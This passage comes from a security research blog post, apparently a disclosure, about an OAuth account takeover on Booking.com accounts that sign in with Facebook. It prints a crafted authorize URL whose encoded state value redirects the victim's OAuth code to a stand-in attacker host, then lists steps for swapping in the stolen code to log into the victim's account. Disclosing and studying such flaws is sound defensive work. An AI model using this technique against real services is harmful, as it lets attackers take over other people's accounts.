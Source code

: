 The original redirect\_uri that we used for the attack is:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=**eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**_

To summarize, as the attacker, we need to:

1. Login to Booking.com, from the attacker Mobile application, with the attacker account.
2. Intercept the request in Step 6.
3. Replace our code with the stolen victim code.
4. Replace resultURi, with the link that we used for the attack (booking.com/state=eyJteXn..)

We send that request to Booking.com, and … **game over. We can log into the victim account.**



**What’s next?**

We created a link that takes over any account on Booking.com that uses Facebook. The link itself points to a legitimate [facebook.com](http://facebook.com) or [booking.com](http://booking.com) domain, which makes it difficult to detect (manually or automatically). The next step is to check the impact on other Booking sites such as Kayak.com and on other sign-in methods such as Google.

[https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com](https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com)
